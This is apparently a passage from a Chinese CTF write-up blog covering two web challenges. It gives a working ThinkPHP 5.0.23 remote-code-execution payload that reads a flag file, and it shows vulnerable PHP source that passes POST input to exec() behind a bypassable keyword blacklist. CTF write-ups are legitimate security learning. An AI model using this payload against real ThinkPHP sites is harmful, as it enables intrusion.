 ----

# old-hack

## 题目描述

是个黑页，目录扫了一遍没什么信息，不过注意到用了ThinkPHP5。

## 解题思路

ThinkPHP5漏洞多多，查看Debug界面，版本为5.0.23，又一个RCE漏洞，百度了Payload：

```
?s=captcha
POST：_method=__construct&filter[]=system&server[REQUEST_METHOD]=cat /flag
```

## 备注

1. 并没有了解过ThinkPHP的一系列漏洞，打算抽空学习一下。
2. 然后也没有学习过ThinkPHP的基本用法，Payload也用得云里雾里，下次必学。

----

# dungShell

## 题目描述

提示写到脸上了，有.swp文件。

## 解题思路

源码删减：

```php
{% highlight php linenos %}
<?php
error_reporting(0);
echo "how can i give you source code? .swp?!"."<br>";
if (!isset($_POST['girl_friend'])) {
    die("where is P3rh4ps's girl friend ???");
} else {
    $girl = $_POST['girl_friend'];
    if (preg_match('/\>|\\\/', $girl)) {
        die('just girl');
    } else if (preg_match('/ls|phpinfo|cat|\%|\^|\~|base64|xxd|echo|\$/i', $girl)) {
        echo "<img src='img/p3_need_beautiful_gf.png'> <!-- He is p3 -->";
    } else {
        //duangShell~~~~
        exec($girl);
    }
}
{% endhighlight %}
```
